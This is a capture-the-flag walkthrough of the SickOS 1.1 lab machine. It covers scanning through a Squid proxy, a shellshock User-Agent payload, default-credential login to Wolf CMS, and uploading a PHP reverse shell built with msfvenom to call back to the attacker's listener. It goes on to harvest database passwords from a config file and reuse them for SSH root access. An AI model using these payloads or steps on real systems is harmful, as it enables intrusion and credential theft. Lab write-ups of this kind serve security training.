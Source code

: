 # SickOS 1.1
![](https://i.imgur.com/1JR58TI.png)
Host is `192.168.227.132`
![](https://i.imgur.com/vlJJGsG.png)
Victim is `192.168.227.133`
`nmap -sS -sV -A -p- -oN NmapSickOsLv1.txt 192.168.227.133`
![](https://i.imgur.com/k4H3slv.png)
Here we got two port open: OpenSSH 5.9p1/22, Squid http proxy 3.1.19/3128
![](https://i.imgur.com/917usUj.png)
Let's use the port:8080 web vul scanner to check the web with proxy.
`nikto -h 192.168.227.133 --useproxy http://192.168.227.133:3128`

![](https://i.imgur.com/ZXLfSRu.png)
There's `shellshock` vulnerability in this service, simply use exploit to get shell command exec.
https://community.tenable.com/s/question/0D5f200004rM1jUCAS/additional-shellshock-pattern-cve20146278-for-bashcve20146271rcenasl
Modified with burp-suite: 
```
User-Agent: () { _; } >_[$($())] { echo;echo; id;}
```
Let's try to see host with proxy first, there might still have   somewhere to be exploited.

![](https://i.imgur.com/zxVd4dq.png)
After setting proxy, browse the host.

![](https://i.imgur.com/DeCLoc6.png)
Nothing here, let's use the url the `Nikto` found: `/cgi.bin/status`
![](https://i.imgur.com/SjfFP0J.png)
Well, there's only some server's OS/kernel version info.
Let's use CTF skill to check the `robots.txt`

![](https://i.imgur.com/bpG4mY3.png)
Here we got the `/wolfcms`, which seem like a cms service.

![](https://i.imgur.com/1eQ4rUI.png)
Simply check every url, traditional cms might has a login panel for admin.

![](https://i.imgur.com/F3IsMTx.png)
![](https://i.imgur.com/ptpD0xB.png)
Seems that `/?` is a suspicious point to other page, maybe we can add `login`, `panel`, `admin` or something in wordlist after it.

![](https://i.imgur.com/8bHrU5K.png)
After we add `admin` after `/?`, we been redirected to `/?/admin/login` automatically.

Now, before we try the SQLi, test default/weak password first.
![](https://i.imgur.com/C9dudVo.png)
Actually, simple SQLi not works on this, but default AC/PW works, as `admin:admin`, we're in.

![](https://i.imgur.com/mfNHUW5.png)
Here we got a feature to upload the file, actually, every cms panel might has this feature, and this is what we want, to upload a reverse shell file.
Pentestmonkey always help:
https://github.com/pentestmonkey/php-reverse-shell

Or you can generate by yourself, use:
`msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.227.132 LPORT=8888 R > SickOS11shell.php`

![](https://i.imgur.com/s28r7wQ.png)
Modified the payload before upload.

![](https://i.imgur.com/mSusJMK.png)
Fortunately, this upload system didn't check the file type with Content Security Policy (CSP) header, we don't need to add another proxy to modified the package.

![](https://i.imgur.com/x0a56cI.png)
After update, open terminal `nc -nvlp 8888`, then use browser to browse the page.

![](https://i.imgur.com/JITMSrl.png)
Wuth these, payload might exec, and listener might get shell.

According to nc reverse shell has limmit and some backwards, let change it into pty: `python -c 'import pty;pty.spawn("/bin/bash")'`
Reason might be found here: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

![](https://i.imgur.com/x691GPc.png)
Then we switch into `/var/www/wolfcms` to find the AC/PW.

![](https://i.imgur.com/kswwbdg.png)
Here we got the AC/PW in the database connect config.

![](https://i.imgur.com/SyEfwvv.png)
We use `root:john@123` to ssh, however, it doesn't work.

We cat `/etc/passwd` to see who super user is.
![](https://i.imgur.com/XuGtpqP.png)

![](https://i.imgur.com/I4uV54w.png)
Take another try on `sikOs:john@123`, fortunatelly, we in.

As a super user, we can `sudo su` to become a root with our own password.

Then check `/root` and cat the `flag.txt`
![](https://i.imgur.com/Edf9eS8.png)
